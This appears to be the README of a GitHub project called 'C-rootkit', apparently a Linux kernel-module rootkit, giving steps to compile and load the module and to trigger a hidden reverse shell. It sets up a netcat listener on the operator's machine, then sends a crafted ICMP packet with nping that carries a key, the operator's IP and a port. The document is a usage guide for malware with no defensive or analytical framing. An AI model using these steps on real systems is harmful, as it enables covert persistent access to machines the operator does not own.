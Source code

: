 C-rootkit

##to compile:
make

##to load the kernel module:
./load_module.sh

##to unload the kernel module:
./cleanup.sh

##to connect to reverse shell:
on your machine: nc -lvvnp [port]  
sudo nping --icmp -c 1 -dest-ip [destination ip] --data-string '[KEY] [your ip] [port]'

